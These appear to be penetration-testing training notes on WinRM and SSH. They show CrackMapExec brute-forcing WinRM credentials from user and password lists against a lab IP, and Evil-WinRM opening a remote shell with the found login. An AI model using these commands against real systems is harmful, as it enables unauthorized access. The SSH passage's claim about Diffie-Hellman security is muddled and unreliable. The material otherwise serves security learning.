 [Windows Remote Management](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) (`WinRM`) is the Microsoft implementation of the network protocol [Web Services Management Protocol](https://docs.microsoft.com/en-us/windows/win32/winrm/ws-management-protocol) (`WS-Management`). It is a network protocol based on XML web services using the [Simple Object Access Protocol](https://docs.microsoft.com/en-us/windows/win32/winrm/windows-remote-management-glossary) (`SOAP`) used for remote management of Windows systems. It takes care of the communication between [Web-Based Enterprise Management](https://en.wikipedia.org/wiki/Web-Based_Enterprise_Management) (`WBEM`) and the [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page) (`WMI`), which can call the [Distributed Component Object Model](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/4a893f3d-bd29-48cd-9f43-d9777a4415b0) (`DCOM`).

#### CrackMapExec
A handy tool that we can use for our password attacks.
```c
r3so1v3@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```c
r3so1v3@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

#### Evil-WinRM
Another handy tool that we can use to communicate with the WinRM service:
```c
r3so1v3@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
```

```c
r3so1v3@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password

Evil-WinRM shell v3.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\user\Documents>
```

## SSH

[Secure Shell](https://www.ssh.com/academy/ssh/protocol) (`SSH`) is a more secure way to connect to a remote host to execute system commands or transfer files from a host to a server. The SSH server runs on `TCP port 22` by default, to which we can connect using an SSH client. This service uses three different cryptography operations/methods: `symmetric` encryption, `asymmetric` encryption, and `hashing`.

#### Symmetric Encryption

Symmetric encryption uses the `same key` for encryption and decryption. However, anyone who has access to the key could also access the transmitted data. Therefore, a key exchange procedure is needed for secure symmetric encryption. The [Diffie-Hellman](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) key exchange method is used for this purpose. If a third party obtains the key, it cannot decrypt the messages because the key exchange method is unknown. However, this is used by the server and client to determine the secret key needed to access the data. Many different variants of the symmetrical cipher system can be used, such as AES, Blowfish, 3DES, etc.

